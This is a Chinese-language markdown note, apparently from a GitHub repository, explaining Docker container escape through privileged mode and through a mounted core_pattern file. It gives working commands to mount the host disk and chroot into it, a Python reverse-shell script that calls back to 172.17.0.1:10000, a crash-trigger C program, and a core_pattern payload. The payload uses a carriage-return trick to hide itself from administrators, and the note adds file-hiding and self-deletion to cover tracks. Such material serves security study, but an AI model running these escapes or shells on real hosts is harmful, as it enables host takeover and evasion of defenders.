

# DockerEscape

> https://www.cdxy.me/?p=818 

DockerEscape的意义在于找到未隔离的部分并加以利用，导致隔离失效：

* 用户层面：用户配置不当
* 服务层：容器服务自身实现不当
* 系统层：Linux内核漏洞

## docker配置不当导致容器逃逸

自从Docker 0.6开始，docker提供了一个`privileged`参数，这个参数可以赋予容器真正的root权限，这个参数最初的目的是为了提供在docker中运行docker的能力，在docker支持该参数之前，docker中的root权限只相当于一个普通用户的权限。

## 启动一个特权模式容器

docker命令：

~~~bash
docker run -it --privileged nginx /bin/bash
~~~

k8s中，在pod的yaml配置中添加配置（因为对k8s还没深入了解，具体看参考文章）

## 检测当前环境是不是以特权模式启动

查看容器状态：

~~~bash
root@132130ed3670:/# cat /proc/self/status | grep "CapEff"
CapEff:	0000003fffffffff
~~~

如果特权模式启动的话，那么`CapEff`的掩码应该是0000003fffffffff

`linux的Capabilities机制`

它对用户的权限进行了更细致的分类，可以对单个线程进行更精度的权限控制。避免粗暴的root特权用户和常规用户的简单区分。当一个进程要进行某个特权操作时,操作系统会检查cap_effective的对应位是否有效,而不再是检查进程的有效UID是否为0。

## 挂载宿主机目录

​	chroot命令即 change root directory (更改 root 目录)。在 linux 系统中，系统默认的目录结构都是以 /，即以根 (root) 开始的。而在使用 chroot 之后，系统的目录结构将以指定的位置作为 / 位置。

​	在经过 chroot 之后，在新根下将访问不到旧系统的根目录结构和文件，这样就增强了系统的安全性。一般会在用户登录前应用 chroot，把用户的访问能力控制在一定的范围之内。

​	由于`privileged`特权，现在容器具备了真正的root权限，所以可以通过mount挂载主机磁盘，那么挂载之后，通过chroot改变根目录就可以实现docker escape的效果。

测试：在容器中执行以下命令

~~~bash
mkdir /abc
mount /dev/sda1 /abc
chroot /abc/
~~~

## 挂载/proc

​	Linux内核提供了一种通过/proc文件系统，在运行时访问内核内部数据结构，改变内核设置的机制，其中动态的反映着系统内存进程以及其他组件的状态，该文件系统是一个伪文件系统，只存在于内存里面，不占用外存空间。它以文件系统的方式为访问系统内核数据的操作提供接口。

​	docker通过在启动时挂载/proc到容器内部也可以实现逃逸。

​	从2.6.19内核版本开始，Linux支持在/proc/sys/kernel/core_pattern中使用新语法。如果该文件中的首个字符是管道符|，那么该行的剩余内容将被当作用户空间程序或脚本解释并执行。

​	`/proc/sys/kernel/core_pattern`文件是负责进程奔溃时内存数据转储的，当第一个字符是`|`管道符时，后面的的部分会以命令行的方式进行解析并运行，同时因为主机和宿主机其实是共用一个内核的，因此命令会以宿主机的权限进行执行。

​	docker启动命令如下：

~~~bash
docker run -itd -v /proc/sys/kernel/core_pattern:/host/proc/sys/kernel/core_pattern ubuntu
~~~

测试结果：

​	复现原理：在容器启动的时候挂载宿主机的proc目录到容器内，然后向宿主机的proc写payload实现docker escape。

​	反弹shell脚本：

~~~python
#!/usr/bin/python3
import  os
import pty
import socket
lhost = "172.17.0.1"
lport = 10000
def main():
   s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
   s.connect((lhost, lport))
   os.dup2(s.fileno(), 0)
   os.dup2(s.fileno(), 1)
   os.dup2(s.fileno(), 2)
   os.putenv("HISTFILE", '/dev/null')
   pty.spawn("/bin/bash")
   # os.remove('/tmp/.x.py') #这个可以用来删除痕迹
   s.close()
if __name__ == "__main__":
   main()
~~~

​	引发错误的程序：

~~~c
#include<stdio.h>
int main(void)  {
   int *a  = NULL;
   *a = 1;
   return 0;
}
~~~

所以，容器需要gcc 和 vim 两个工具进行辅助（容器默认是不携带这些工具的），同时还需要注意，Linux的转储机制对/proc/sys/kernel/core_pattern内程序的查找是在宿主机文件系统上进行的，但是容器里的/tmp/x.py是容器内路径，因此需要拿到容器在宿主机上的绝对路径：

~~~bash
root@0817d6a165cd:/# cat /proc/mounts | grep "docker"
overlay / overlay rw,relatime,lowerdir=/var/lib/docker/overlay2/l/5OMZKSJB7ICWURACQSRL547EHI:/var/lib/docker/overlay2/l/XUWU2IIVZX3WFYWE2F3B5237RI:/var/lib/docker/overlay2/l/GMQO6W6WC2TEC3NRC5NYHOSBUQ:/var/lib/docker/overlay2/l/O4RKKFSGX3RCZVIUIJPNJJYF4R,upperdir=/var/lib/docker/overlay2/45cdf19f22d70d33529115a55abf55084f7e30912b7f705315317217cbe147ca/diff,workdir=/var/lib/docker/overlay2/45cdf19f22d70d33529115a55abf55084f7e30912b7f705315317217cbe147ca/work,xino=off 0 0
~~~

写入payload，将之前准备的/tmp/.x.py写入到目标位置:

~~~bash
echo -e "|/var/lib/docker/overlay2/45cdf19f22d70d33529115a55abf55084f7e30912b7f705315317217cbe147ca/merged/tmp/.x.py \rcore " > /host/proc/sys/kernel/core_pattern
~~~

如此当执行之前的C程序发生崩溃的时候，之前写入的payload就可以被执行。

1. payload中使用空格加\r的方式，巧妙覆盖掉了真正的｜/tmp/.x.py，这样一来，即使管理员通过cat /proc/sys/kernel/core_pattern的方式查看，也只能看到core；
2. /tmp/.x.py是一个隐藏文件，直接ls是看不到的；
3. os.remove("/tmp/.x.py")在反弹shell的过程中删掉了用来反弹shell的程序自身。

